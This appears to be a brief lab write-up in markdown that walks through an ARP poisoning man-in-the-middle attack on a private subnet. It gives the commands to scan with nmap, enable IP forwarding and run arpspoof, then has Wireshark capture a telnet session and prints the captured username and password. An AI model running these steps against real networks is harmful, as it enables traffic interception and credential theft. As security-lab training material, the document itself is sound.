



# ARP Poisoning

Find my IP address
```
ifconfig
```

My IP: 10.100.13.140

Find IP addresses of client and telnet server
```
nmap -sV 10.100.13.0/24
```



enable Linux Kernel IP forwarding
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

-i INTERFACE<br>
-t TARGET_IP machine you want to trick<br>
-r HOST_IP machine you want to impersonate
```
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36
```

Open wireshark, filter "telnet", and follow tcp stream



username: admin
password: MyS3cr3tP455


